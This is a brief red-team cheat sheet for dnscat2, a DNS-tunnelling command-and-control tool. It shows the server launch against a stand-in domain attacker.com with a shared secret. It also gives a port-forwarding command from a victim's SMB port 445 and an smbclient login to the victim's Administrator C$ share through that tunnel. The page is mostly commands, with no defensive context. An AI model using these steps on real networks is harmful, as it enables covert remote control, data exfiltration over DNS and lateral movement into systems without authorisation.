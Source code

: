 ```yaml
---
description: 'https://github.com/iagox86/dnscat2'
---
```


# DNScat

## DNScat usage

### Server side

```csharp
root@ip-172-31-37-132:/opt/dnscat2/server# ruby dnscat2.rb attacker.com --secret 543983jkjklfsp324edps
```

### On the victim 

![](../../.gitbook/assets/8f0a3e560451c4126ac28d7ca5b3858d.png)

### Port Forwarding

Forward port 445 on attacker machine port 1234

```csharp
command (client) 1> listen 127.0.0.1:1234 10.0.0.1:445
```

then, on the attacker :

```csharp
smbclient -U Administrator -p 1234 \\127.0.0.1\C$
```



### Resource

{% embed url="https://github.com/iagox86/dnscat2" %}

